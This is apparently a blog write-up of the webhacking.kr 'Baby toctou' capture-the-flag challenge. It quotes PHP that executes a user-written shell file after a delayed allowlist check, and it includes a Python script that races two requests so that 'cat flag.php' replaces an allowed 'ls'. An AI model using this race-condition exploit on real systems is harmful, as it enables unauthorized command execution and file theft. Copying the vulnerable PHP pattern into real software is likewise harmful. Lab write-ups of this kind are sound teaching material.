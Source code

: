 ```yaml
---
layout: post
title: "[Webhacking.kr] Baby toctou 🍼 writeup"
categories: hacking writeup web
---
```


## Introduction

Link: [http://webhacking.kr:10019/](http://webhacking.kr:10019/)

I decided to give myself a try on this challenge which was solved my only 42 people at the time. I thought it would be a challenging (and interesting) one. In the end this one was not that hard, but surely an interesting one.

## First look

```php
<?php
  // system($_GET['q']);
  if(!preg_match('/^[a-f0-9]+$/',$_COOKIE['baby_toctou'])){ $newCookie = uniqid().rand(1,999999999); setcookie("baby_toctou",$newCookie); $_COOKIE['baby_toctou'] = $newCookie; }
  $cmd = $_GET['q'];
  $myfile = fopen("user/{$_COOKIE['baby_toctou']}.sh", "w") or die("Unable to open file!");
  fwrite($myfile, $cmd);
  fclose($myfile);
  if(($cmd === "ls") || ($cmd === "cat api.php") || ($cmd === "cat index.php")){ // valid check
    sleep(1); // my server is small and weak
    system("sh ./user/{$_COOKIE['baby_toctou']}.sh");
  }
  else{
    echo <<<HELP
only "ls", "cat api.php", "cat index.php" allowed
HELP;
  }
?>
```

This `api.php` simply writes the command you want to execute into a file named by the `baby_toctou` cookie. After writing the file, it checks the command before executing the file.
Nothing's wrong with the `if` check, so what could go wrong?

## Race condition

Now what if we change the content of the file after the `if` condition successes? We have a generously 1 second for that.

But how can we? Isn't the program running top-down?

What if we have 2 people P1 and P2, one executes, and one edits the content?
Here's the idea:

| Step | P1                              | P2                                |
| ---- | ------------------------------- | --------------------------------- |
| 1    | Writes `ls` to the file         | -                                 |
| 2    | Passes the `if` check           | -                                 |
| 3    | Waits 1 second before executing | Writes `cat flag.php` to the file |
| 4    | Executes the file               | Fails the `if` check              |

Easy!

## Exploitation

There's not much to talk about this, but I'll post my code here as a reference.

```python
import requests, threading, time

def send(cmd):
    cookies = {
        'PHPSESSID': 'ofq76t3822i5ee1plskj2bafmt',
        'baby_toctou': 'abc91', # just a random string, anything will work
    }

    headers = {
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.9',
        'Connection': 'keep-alive',
        # 'Cookie': 'PHPSESSID=ofq76t3822i5ee1plskj2bafmt; baby_toctou=abc91',
        'DNT': '1',
        'Referer': 'http://webhacking.kr:10019/',
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36',
    }

    params = {
        'q': cmd,
    }

    response = requests.get('http://webhacking.kr:10019/api.php', params=params, cookies=cookies, headers=headers, verify=False)
    print(response.text)

p1 = threading.Thread(target=send, args=('ls',))
p2 = threading.Thread(target=send, args=('cat flag.php',))


print('[info] getting in ...')

p1.start()
time.sleep(0.25)
p2.start()
```

## Conclusion

This challenge helped me develop my sense of a non-linear attack. Always think of a multi-user situation!
